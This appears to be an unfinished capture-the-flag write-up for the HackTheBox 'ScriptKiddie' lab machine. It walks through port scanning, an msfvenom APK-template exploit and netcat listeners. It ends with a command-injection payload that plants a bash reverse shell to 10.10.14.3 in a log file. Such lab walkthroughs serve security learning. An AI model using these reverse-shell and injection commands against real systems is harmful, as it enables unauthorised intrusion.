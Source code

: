 # CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/<user>/).
 
There is another user `pwn`, the plan was to find a way to this account. I used a [secjuice]() resource for this part as I hit a roadblock. 
 ```
 $ nc -nvlp 4445
 ```
Looking at the `scanlosers.sh` file in /home/pwn, the script is vulnerable to command injection. This payload contains a reverse shell that we can push to the log file `hackers`. 
 ```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4445 0>&1' # ." > hackers
 ```
 ```
 $ nc -nvlp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.10.226 42332
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
 ```
```
TO BE CONTINUED  
```
